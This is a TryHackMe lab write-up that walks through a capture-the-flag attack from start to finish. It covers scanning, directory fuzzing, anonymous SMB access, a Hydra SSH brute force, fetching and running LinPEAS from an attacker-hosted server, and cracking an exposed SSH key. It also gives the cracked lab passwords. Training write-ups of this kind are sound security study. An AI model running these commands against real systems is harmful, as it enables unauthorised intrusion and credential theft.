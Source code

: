 # Basic Pentesting Writeup (TryHackMe)

## Challenge Overview

This challenge simulates a real-world penetration test scenario where the attacker must gain access to a machine through open services, enumerate for sensitive data, and escalate privileges to capture the final flag. It involves techniques like directory fuzzing, SMB enumeration, password brute-forcing, and leveraging exposed SSH keys for privilege escalation.

---

## Enumeration

Started the challenge by running an Nmap scan to enumerate open ports and identify services:

```bash
sudo nmap <target-ip> -sS -T4 -A
```

![2025-05-06_14-00](https://github.com/user-attachments/assets/9e66d88d-4275-4d90-a383-ad2a8a8c3191)

Discovered a website running on port 80.

## Web Enumeration

Used `gobuster` to find hidden directories:

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![2025-05-06_14-05](https://github.com/user-attachments/assets/03db77ae-d3b5-4de7-884d-22fe38dfa4e0)

Found the `/development` subdirectory. It contained two `.txt` files that mentioned the development of the website and referenced an SMB share.

![2025-05-06_14-05_1](https://github.com/user-attachments/assets/4a94e1bf-8b4f-49a5-aaf4-79fa1d949960)
![2025-05-06_14-06](https://github.com/user-attachments/assets/42d7e777-72b6-4c88-9318-8bb7b172898a)
![2025-05-06_14-07](https://github.com/user-attachments/assets/bde4d3ef-52b8-45eb-a89f-c80324b11d7c)

## SMB Enumeration

Accessed the SMB share using `smbclient` with anonymous login:

```bash
smbclient -L //<target-ip>
smbclient //<target-ip>/Anonymous 
```

Retrieved a `.txt` file mentioning two users: `jan` and `kay`.

![2025-05-06_14-37](https://github.com/user-attachments/assets/06cb2416-a754-4bd0-89a1-05e7115aced2)

## SSH Brute Force

Used Hydra to brute-force SSH credentials for `jan`:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt <target-ip> ssh
```

![2025-05-06_14-45](https://github.com/user-attachments/assets/f3c9f9f3-ccf8-4e0f-b9e1-5d5fbf368439)

Cracked password: `armando`

## Privilege Escalation (to kay)

After logging in as `jan`, manual enumeration began. Encountered several dead-ends:

* `sudo -l` – no permissions
* Checked SUID binaries – no immediate vector
* `wget` didn't work initially

Found that `/tmp` was writable. Hosted LinPEAS on attacker machine via Python server:

```bash
python3 -m http.server 8000
```

Then on target:

```bash
cd /tmp
wget http://<attacker-ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## 🗝SSH Key Exploit

LinPEAS revealed an exposed private key in `/home/kay/.ssh/id_rsa`. Copied it and cracked it:

![2025-05-06_15-57_1](https://github.com/user-attachments/assets/b43735a1-b605-45c0-aed9-acc913958d16)

Extracted hash with `ssh2john`:

```bash
ssh2john id_rsa
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

![2025-05-06_15-57](https://github.com/user-attachments/assets/2f4ef426-9cb5-4277-ac58-e2ef0da54756)

Password: `beeswax`

Used the private key to SSH into kay's account:

```bash
ssh -i id_rsa kay@<target-ip>
```

Accessed `pass.bak`:

```bash
cat pass.bak
```

![2025-05-06_15-58](https://github.com/user-attachments/assets/dda629b3-c579-4f68-827d-854b0826680e)

✅ Final flag retrieved.

---

## 🧾 Conclusion

![2025-05-06_15-59](https://github.com/user-attachments/assets/dec757bf-bea6-431b-aebb-d989648cd122)

This room tested core skills in enumeration, brute-forcing, and privilege escalation:

* Gobuster revealed a hidden dev directory
* SMB share exposed usernames
* SSH brute-force using Hydra
* Privilege escalation via exposed SSH key

The challenge emphasized how poor access control, default credentials, and leftover dev artifacts can lead to full system compromise.
